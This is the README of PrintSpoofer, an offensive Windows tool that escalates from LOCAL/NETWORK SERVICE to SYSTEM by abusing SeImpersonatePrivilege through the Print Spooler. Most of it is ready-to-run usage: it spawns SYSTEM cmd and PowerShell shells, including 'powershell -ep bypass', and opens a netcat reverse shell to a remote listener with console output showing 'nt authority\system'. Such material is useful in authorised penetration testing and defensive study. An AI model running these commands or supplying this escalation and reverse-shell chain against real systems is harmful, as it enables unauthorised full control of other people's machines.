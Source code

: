 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Custom command line to execute
  -i          Interact with the new process in the current console (default is non-interactive)
  -d          Spawn a new process on the currently active desktop
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the currently active desktop
      PrintSpoofer.exe -d -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.1337 1337 -e cmd"
```

### Example 1: Spawn a SYSTEM command prompt in the current console

:information_source: This command requires an __interactive__ shell.

:warning: Don't run this command through WinRM or in a pseudo-shell (e.g.: `wmiexec.py`).

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 2: Get a SYSTEM reverse shell

:information_source: This command can be used to create a new process and immediately exit.

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 3: Spawn a SYSTEM PowerShell prompt on the active desktop

:information_source: For testing purposes, you can spawn a SYSTEM shell on your desktop. :)

:warning: Don't run this command in a terminal session (RDP).

```txt
C:\TOOLS>PrintSpoofer.exe -d -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
